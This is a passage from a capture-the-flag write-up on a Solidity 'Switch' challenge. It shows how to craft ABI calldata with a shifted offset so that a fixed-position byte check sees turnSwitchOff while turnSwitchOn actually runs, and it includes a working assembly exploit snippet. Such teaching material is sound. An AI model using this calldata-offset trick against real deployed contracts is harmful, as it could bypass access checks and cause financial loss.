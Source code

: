 So we need to maintain this byte 68 in the calldata, but finding a way to passing the selector of `turnSwitchOn()` to beat this level.

#### Abusing the offset

Let's look at calldata again

```
0x30c13ade                                                        // selector
0000000000000000000000000000000000000000000000000000000000000020  // 20h = 32d bytes from the selector to the start of data
0000000000000000000000000000000000000000000000000000000000000004  // 4 bytes, length of the `bytes` type (data "started" here)
20606e1500000000000000000000000000000000000000000000000000000000  // the actual data -> 0x20606e15
```

This selector `0x30c13ade ` tells to the contract "execute the function `flipSwitch(bytes memory)`". The next thing is looking at the next 32 bytes. As the type is dynammic, this word give us **the offset**, that is, where do I start reading the variable. In this case is `0x20` bytes. If we modify it to `0x60` bytes, it will skip the next 2 words, and read the next chink of data.

Crafting the calldata like this:

```
0x30c13ade                                                        // selector
0000000000000000000000000000000000000000000000000000000000000060  // 60h = 96d bytes from the selector to the start of data

0000000000000000000000000000000000000000000000000000000000000004  // i will not look for my bytes here....
20606e1500000000000000000000000000000000000000000000000000000000  // ....

0000000000000000000000000000000000000000000000000000000000000004  // But I will start reading my 4 bytes HERE
76227e1200000000000000000000000000000000000000000000000000000000  // then _data becomes 0x76227e12
```

Complying with the modifier, as the byte `68` is still the expected one. And giving the selector for `turnSwitchOn()`, which solves the level.

We leverage assembly to solve the level

```solidity
bytes4 flipSelector = bytes4(keccak256("flipSwitch(bytes)"));
bytes32 offSelectorData = bytes32(bytes4(keccak256("turnSwitchOff()")));
bytes32 onSelectorData = bytes32(bytes4(keccak256("turnSwitchOn()")));

bytes memory switchCalldata = new bytes(4 + 5 * 32);
assembly {
    mstore(add(switchCalldata, 0x20), flipSelector)
    // calldata tells the EVM: "The bytes variable is in 0x60 bytes forward"
    mstore(add(switchCalldata, 0x24), 0x0000000000000000000000000000000000000000000000000000000000000060)
    // length of the bytes data (that we are not using in this exploit) but for the modifier
    mstore(add(switchCalldata, 0x44), 0x0000000000000000000000000000000000000000000000000000000000000004)
    mstore(add(switchCalldata, 0x64), offSelectorData)
    // length of the actual bytes data we are using
    mstore(add(switchCalldata, 0x84), 0x0000000000000000000000000000000000000000000000000000000000000004)
    mstore(add(switchCalldata, 0xa4), onSelectorData)
}

(bool success,) = challengeAddress.call(switchCalldata);
success;
```
